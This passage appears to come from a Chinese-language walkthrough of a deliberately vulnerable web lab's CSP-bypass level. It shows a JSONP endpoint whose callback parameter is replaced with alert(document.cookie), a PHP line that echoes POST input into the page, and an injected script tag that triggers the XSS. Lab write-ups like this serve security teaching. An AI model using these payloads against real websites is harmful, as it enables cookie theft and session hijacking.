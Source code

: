 ```javascript
function solveSum(obj) {
    if ("answer" in obj) {
        document.getElementById("answer").innerHTML = obj['answer'];
    }
}
```

将结果输出到 网页当中，完整的流程是这样，比较繁琐和复杂。

这个时候如果将 callback 参数换成：





payload

```payload
jsonp.php?callback=alert(document.cookie)
```

就会得到如下返回值：



![img](https://image.3001.net/images/20200528/15906554928084.png)



此时 JS 调用执行的话就会触发弹窗。

但是怎么去修改 callback 参数呢？幸运的是这一关留了一手：





php

```php
$page[ 'body' ] .= "
    " . $_POST['include'] . "
";
```

POST 提交的 include 参数直接放到了 body 源码中，这里我们可以自己改造 include 来进行弹窗：





javascript

```javascript
include=<script src=source/jsonp.php?callback=alert(document.cookie)></script>
```



![img](https://image.3001.net/images/20200528/15906555467213.png)



成功注入 XSS

## Impossible
